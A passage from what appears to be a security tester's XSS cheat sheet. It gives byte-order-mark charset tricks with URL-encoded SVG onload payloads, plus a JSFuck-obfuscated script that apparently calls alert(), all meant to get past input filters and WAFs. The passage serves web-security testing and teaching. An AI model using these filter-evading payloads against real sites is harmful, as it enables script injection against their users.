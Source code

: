 ## Bypass using BOM

Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

## Bypass using JSfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

## References

- [Airbnb – When Bypassing JSON Encoding, XSS Filter, WAF, CSP, and Auditor turns into Eight Vulnerabilities - Brett Buerhaus (@bbuerhaus) - March 8, 2017](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)
